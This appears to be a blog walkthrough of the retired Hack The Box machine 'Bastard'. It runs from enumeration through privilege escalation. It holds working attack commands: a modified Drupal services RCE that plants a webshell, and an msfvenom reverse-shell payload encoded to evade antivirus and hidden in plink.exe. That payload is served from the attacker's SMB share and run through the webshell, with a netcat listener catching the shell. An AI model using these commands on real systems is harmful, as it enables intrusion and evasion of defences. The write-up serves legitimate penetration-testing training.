 ```yaml
---
layout: post
title: "Bastard"
categories: HTB-Walkthrough
---
```


![bastard](/assets/img/bastard/bastard.png)

Bastard is another HTB machine from the 'retired' list, and it isn't as bad as it sounds.

Nmap first...
`nmap -sV -Pn 10.10.10.9 |tee -a bast.txt`

```

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Immediate plan of action: Check searchsploit for IIS 7.5, and checkout the website via the browser...

`searchsploit iis 7.5`

```

---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities  | exploits/windows/remote/19033.txt

```

This was the only exploit (besides the dos one), so I opened up the browser to see what the web-server was doing...

![bastard-frontpage](/assets/img/bastard/bastard-frontpage.png)

In the source of the frontpage I spot that the site is using Drupal version 7

```

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />

```

Checking this with searchsploit yeilded more results...

`searchsploit drupal 7`

![bastard-drupal-searchsploit](/assets/img/bastard/bastard-drupal-searchsploit.png)


Not sure at this stage exactly what version Drupal 7 we have, I decide to enumerate the server's directories with gobuster.

I often run gobuster with the `-t 50` flag (threads=50), but that threw up lots of errors, so I went with the default 10, then eventually to 5, still a few errors and it was awfully slow:

`gobuster dir -u http://10.10.10.9/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 5`

While gobuster was doing its thing, I had a manual browse; `robots.txt` is always the first to try as it can provide a good jumping point for further browsing, but so often reveals nothing...

Not in this case...robots.txt is full of information...I scan the list for interesting destinations.

In the `#files` section there is `/CHANGELOG.txt`, which should be able to give us an accurate version number.


It  informs us that the exact version of drupal is
`Drupal 7.54, 2017-02-01`

Armed with this I look at the searchsploit results again, and see that the options are reduced.

I copied the `Drupal services module RCE` and the `Drupalgeddon3 RCE PoC` (not metasploit version) to my working folder and had a read.

`searchsploit -m 41564`
`searchsploit -m 44542`




<hr width="250" size="6">


I decided to have a go at the drupal services module RCE exploit; it requires modifying, I need to find the rest endpoint.

My gobuster results include ` /rest`
Browsing to the page gets the message:

`Services Endpoint "rest_endpoint" has been setup successfully.`

So I'm able to modify the exploit accordingly

![drupal-exploit](/assets/img/bastard/bastard-drupal-exploit.png)

I changed the php payload to a webshell, that would be executable from the created page sh1n0bi.php.




<h4>msfvenom</h4>
I use msfvenom to craft a payload, I chose a 'known' port thats usually deemed 'safe', but is not in use, I also encrypt it with `shikata_ga_nai` and embed it into a 'safe' binary called `plink.exe`;
hopefully any defences looking for a suspicious signature will not be alerted.

```

msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=443 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil.exe

```

Rather than upload the evil.exe I can serve it to the target with Impacket's smbserver.py



First, run the exploit which creates the webshell.

`php drupal7-services-module-RCE.php`

Second, we have to run smbserver.py and share the folder containing evil.exe.

`python smbserver.py -comment 'My share' Sh1n0bi /tmp/sh1n/`

Third, set an nc listener...
`nc -nlvp 443`

Fourth, execute the evil payload via the created webshell.
`10.10.10.9/sh1n0bi.php?cmd=\\10.10.14.16\Sh1n0bi\evil.exe`

we get a shell...


![smbshare](/assets/img/bastard/bastard-smbshare.png)

![gotshell](/assets/img/bastard/bastard-gotshell.png)

<hr width="250" size="6">


<h3>Privilege Escalation</h3>



I check with `windows-exploit-suggester.py` 

![suggester](/assets/img/bastard/bastard-suggester.png)


I select MS10-059.exe, copy it to my /tmp/sh1n folder as chim.exe


I execute it from the target making sure I start a netcat listener first.

![chim](/assets/img/bastard/bastard-chim.png)

![rootshell](/assets/img/bastard/bastard-rootshell.png)



```

type dimitris\desktop\user.txt
baxxxxxxxxxxxxxxxxxxxxxxxxxxxxa2

```


```

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bxxxxxxxxxxxxxxxxxxxxxxxxxxxx7c

```

:)

